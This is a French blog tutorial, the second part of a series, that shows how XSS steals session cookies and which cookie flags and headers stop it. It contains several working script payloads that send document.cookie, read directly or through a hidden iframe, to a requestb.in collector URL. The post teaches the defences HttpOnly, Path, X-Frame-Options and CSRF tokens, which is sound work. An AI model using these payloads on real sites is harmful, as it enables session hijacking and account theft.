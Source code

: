 ```yaml
---
layout: post
title:  "XSS, CORS, CSRF (Partie 2)"
date:   2016-08-15
categories: web
---
```

XSS  et vol de cookies par la pratique.
----------

**Vous reprendrez bien un cookie ?**
  
Dans le [premier volet]({{ site.url }}/xss-cors-csrf-partie-1-xss) de notre saga, nous traitions des attaques XSS et des moyens de s’en prémunir. Ces vulnérabilités peuvent être utilisées pour voler vos informations de session ou vous rediriger vers un site frauduleux. Vous vous dîtes sûrement : "ok coco en théorie c’est bien sympa tout ça, mais en quoi consiste le vol d’une session, quelles informations sont envoyées et où part la requête ?".  
  
Imaginons la configuration suivante :
  
![Configuration de l'attaque]({{ site.url }}/public/images/xss-cors-csrf/cors_1.png)
  
Un internaute requête le site *www.site-a.com* qui est un site de confiance mais vulnérable au XSS. Un pirate pourra injecter le code suivant :  

```html
Juste un petit coucou !
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(document.cookie));
	xhr.send();
</script>
```
  
Pour notre test nous partirons sur le postulat que *www.site-a.com* est notre *localhost*, et que *www.site-b.com* (le site du pirate qui récupère les infos) correspond au site *http://requestb.in*.  

> Le site **http://requestb.in** est très utile pour analyser les requêtes HTTP.  

Lorsque le script est exécuté, ce dernier accède au **document.cookie** qui correspond au cookie du document HTML courant contenant l’id de session. Ce dernier peut ressembler à ceci :  

![Exemple cookie 1]({{ site.url }}/public/images/xss-cors-csrf/cors_2.png)  
Ou bien ceci :  

![Exemple cookie 2]({{ site.url }}/public/images/xss-cors-csrf/cors_3.png)  
Nous reviendrons sur ce dernier cas par la suite car ce dernier est un cookie sécurisé. Je vous recommande sous Chrome d’installer l’extension [Cookie Inspector]( https://chrome.google.com/webstore/detail/cookie-inspector/jgbbilmfbammlbbhmmgaagdkbkepnijn).  
  
Pour nos tests voici la configuration mise en place :  

 - Une page *http://localhost/secu/cookie.php*:  

```php
<?php
	setcookie('PHPSESSID_secure', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], isset($_SERVER["HTTPS"]), true);
	setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/', $_SERVER['SERVER_NAME'], false, false);
?>
```  
> Vous ne pouvez pas définir de cookie pour un autre domaine.  

Les cookies générés (deux cookies à des fins de test):  
![Configuration cookies test]({{ site.url }}/public/images/xss-cors-csrf/cors_4.png)  
Les champs [Domain, Path, HTTP et Secure](https://tools.ietf.org/html/rfc6265) sont les champs qui permettront de sécuriser notre cookie:  

**domain** : le domaine racine concerné par le cookie  
**path** : détermine pour quelle arborescence à partir du domaine racine le cookie sera accessible  
**session.cookie_httponly** : empêche un cookie d’être accessible via javascript (XSS ;))  
**session.cookie_secure** : accède au cookie uniquement sur des connexions HTTPS (empêche les informations de transiter en clair – voir également la solution [HSTS](https://developer.mozilla.org/fr/docs/S%C3%A9curit%C3%A9/HTTP_Strict_Transport_Security))    
  
 - Une page vulnérable *http://localhost/xss.php* qui contient le payload vu précédemment.  
  
Ce cookie est envoyé via une requête **XMLHttpRequest** sur *requestb.in*. Regardons quelles informations sont réceptionnées :  
![Requestb.in get data]({{ site.url }}/public/images/xss-cors-csrf/cors_5.png)
  
Nous récupérons bien l’id de session de notre cookie non sécurisé uniquement. Ceci a été possible car :  

  -	Faille **XSS** ayant permis l’injection de javascript
  -	Cookie avec le flag **HttpOnly** à false
  -	Requête **Cross-Origin** simple sur le site du pirate pour récupération des informations
  -	Cookie avec un **Path** permissif (toute l’arborescence du site)  
  
Il convient de définir un path pour lequel le cookie doit être actif, dans notre exemple un espace sécurisé */secu* qui sollicite le cookie session. Ainsi notre page publique vulnérable *xss.php* à la racine */* n’aurait pas été en mesure d’accéder au cookie. Modifions le path de notre cookie unsecured :  
  
```php
setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], false, false);
```
  
Et si maintenant nous tentions dans notre payload (depuis la page *http://localhost/xss.php*) d’accéder à la page *http://localhost/secu/cookie.php*, de lui voler son cookie et de nous l’envoyer :  
  
```html
<script>    
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function () {

		if (xhr.readyState == 4) {
			var cookie = xhr.getResponseHeader('Set-Cookie');   
				
			var xhr2 = new XMLHttpRequest();
			xhr2.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie), false);
			xhr2.send();
		}
	}	
	xhr.open('GET', 'http://localhost/secu/cookie.php');
	xhr.send();		  
</script>
```
  
Malheureusement nous obtenons : <span style="color: red">```Refused to get unsafe header "Set-Cookie"```</span>.  
  
La spécification **XMLHttpRequest** interdit l’accès à certains response headers pour des raisons de sécurité. Les navigateurs chrome / firefox / IE retourneront donc null ([https://fetch.spec.whatwg.org/#forbidden-header-name]( https://fetch.spec.whatwg.org/#forbidden-header-name)).  
  
<a name="iframe"></a>N’y-a-t-il pas une autre méthode que notre XHR pour charger cookie.php?  
  
```html
<script>    
	var iframe = document.createElement("iframe");
	iframe.src = "http://localhost/secu/cookie.php";
	iframe.hidden = true;            
	var iframeObj = document.body.appendChild(iframe);

	iframeObj.onload = function(){            
		var cookie = iframeObj.contentDocument.cookie;
		var xhr = new XMLHttpRequest();
		xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie));
		xhr.send();
	};          	  
</script>
```  
  
Bingo, même avec un path défini pour ce cookie, nous avons pu le récupérer, et si vous avez bien retenu votre leçon dans le [volet 1](https://phackt.github.io/xss-cors-csrf-partie-1-xss) de notre saga XSS, vous connaissez la contre-mesure à ce payload : le response header **X-Frame-Options** qui interdit qu’une page soit rendue dans un ```<frame>```, ```<iframe>``` ou ```<object>```. Bien évidemment il est préférable en amont de toujours positionner le flag **HttpOnly**. L’accès au cookie par javascript est peu justifiable dans les développements Web.  
  
> *"J’ai activé la console de mon navigateur et je remarque cependant un warning:"*  

<pre class="alert">
XMLHttpRequest cannot load http://requestb.in/w7iy5sw7?cookie=PHPSESSID_unsecured=jm5mah0a9uuf4g344096nled73.  
No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'http://localhost' is therefore not allowed access.
</pre>  
  
> *"Nous requêtons depuis une ressource du domaine http://localhost:80 vers le domaine http://requestb.in:80, et nous avons ce message, comment se fait-il que la requête ait abouti ?"*  
  
Et bien je vous remercie d’avoir posé la question :). Nous sommes typiquement dans le cas d’une requête Cross Origin. Aujourd'hui AJAX  est omniprésent dans les développements de par l'essor des frameworks client riches comme AngularJS. Je réserve le détail du **Cross-Origin Resource Sharing** pour le dernier volet de cette saga. La connaissance du CORS est essentielle pour les développeurs WEB.  
  
Imaginez que vous surfiez sur un site frauduleux qui puisse soumettre à votre insu des requêtes sur un de vos sites préférés en incluant vos informations de session et poster des formulaires à votre place... C’est à ce niveau qu’il est essentiel de bien configurer le Cross-Origin Resource Sharing et de définir un **token de sécurité** pour éviter les attaques **Cross-Site Request Forgery**. Ceci nous montre bien que les vecteurs d'attaques sont multiples.  
  
A très bientôt.
<br />
<br />
Références:  
[http://php.net/manual/fr/session.security.php](http://php.net/manual/fr/session.security.php)  
[https://geekflare.com/httponly-secure-cookie-apache/](https://geekflare.com/httponly-secure-cookie-apache/)  
[https://fetch.spec.whatwg.org/](https://fetch.spec.whatwg.org/)  
[https://geekflare.com/secure-cookie-flag-in-tomcat/](https://geekflare.com/secure-cookie-flag-in-tomcat/)
